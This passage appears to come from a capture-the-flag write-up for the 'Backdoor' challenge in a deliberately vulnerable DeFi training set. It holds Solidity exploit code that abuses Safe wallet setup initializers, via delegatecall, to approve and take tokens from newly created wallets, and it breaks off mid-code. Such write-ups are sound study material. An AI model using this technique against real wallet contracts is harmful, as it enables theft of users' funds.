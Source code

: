 PoC:
```solidity
// test
function test_backdoor() public checkSolvedByPlayer {

    BackdoorExploiter exploiter = new BackdoorExploiter(
        payable(address(singletonCopy)),
        address(walletFactory),
        address(walletRegistry),
        recovery,
        address(token),
        users
    );

    exploiter.exploit();
}


// Exploit contract
contract BackdoorExploiter {
    uint256 private constant PAYMENT_AMOUNT = 10 ether;

    Safe private immutable singletonCopy;
    SafeProxyFactory private immutable walletFactory;
    WalletRegistry private immutable walletRegistry;
    DamnValuableToken private immutable token;

    address recovery;
    address[] users;

    constructor(
        address payable _singletonCopy,
        address _walletFactory,
        address _walletRegistry,
        address _recovery,
        address _token,
        address[] memory _users
    ) {
        singletonCopy = Safe(_singletonCopy);
        walletFactory = SafeProxyFactory(_walletFactory);
        walletRegistry = WalletRegistry(_walletRegistry);
        token = DamnValuableToken(_token);
        recovery = _recovery;
        users = _users;
    }

    function delegateApprove(address spender) external {
        token.approve(spender, PAYMENT_AMOUNT);
    }

    function exploit() public {

        SafeProxy[] memory proxies = new SafeProxy[](4);

        for (uint256 i = 0; i < 4; i++) {
            // Prepare the initializer for the Safe setup
            bytes memory data = abi.encodeWithSignature(
                "delegateApprove(address)",
                address(this)
            );
            address[] memory owner = new address[](1);
            owner[0] = users[i];
            bytes memory initializer = abi.encodeWithSelector(
                Safe.setup.selector,
```
